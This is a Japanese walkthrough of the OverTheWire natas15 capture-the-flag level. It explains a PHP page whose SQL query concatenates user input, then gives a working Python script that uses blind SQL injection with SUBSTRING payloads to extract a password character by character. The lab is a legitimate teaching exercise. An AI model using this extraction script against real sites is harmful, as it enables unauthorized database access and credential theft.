



  

usernameが存在するかどうかを調べられるらしい  

適当に入力すると` This user doesn't exist.`と表示  

  

ソースコードを見る。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

ここでDBへのクエリを組んで、  
```
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

結果はここで返されるらしい。  
```
    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }
```

存在するusernameを入力してもflagが返されるわけではないことから、  
DB内のどこかにflagが隠されているのではと予想する。  

使用するsqli手法はblind sql injectionで、レスポンスや挙動の違いからDB内を探る。  
DBからのエラーメッセージが表示されない場合などに有効である。  

以下のコードを使う。  
```
import requests
import string

url = "http://natas15.natas.labs.overthewire.org/"  # ここにurl


charset = string.ascii_letters + string.digits  # パスワードに使われそうな文字集合
extracted_password = ""
max_password_length = 32  # 適宜変更
error_string = "This user exists." # エラー文字列をここに

auth_user = "natas15"               # Basic認証用のユーザ名
auth_pass = ""          # Basic認証用のパスワード

use_auth = bool(auth_user and auth_pass)

for i in range(1, max_password_length + 1):
    found = False
    for c in charset:
        payload = f'natas16" AND SUBSTRING(password, {i}, 1) = BINARY "{c}" -- '
        params={"username": payload} #適宜変更

        if use_auth:
            response = requests.get(url, params=params, auth=(auth_user, auth_pass))
        else:
            response = requests.get(url, params=params)
            
        if error_string in response.text:
            extracted_password += c
            print(f"[+] Found character {i}: {c} -> {extracted_password}")
            found = True
            break
    if not found:
        print(f"[-] No character found at position {i}. Ending search.")
        break

print(f"[✓] Extracted password: {extracted_password}")
```

以下のように、文字列の必要な部分を切り出す関数`SUBSTRING`を使用して1文字ずつ探っていく。  

  

最終的に全文字のflagが得られる。  

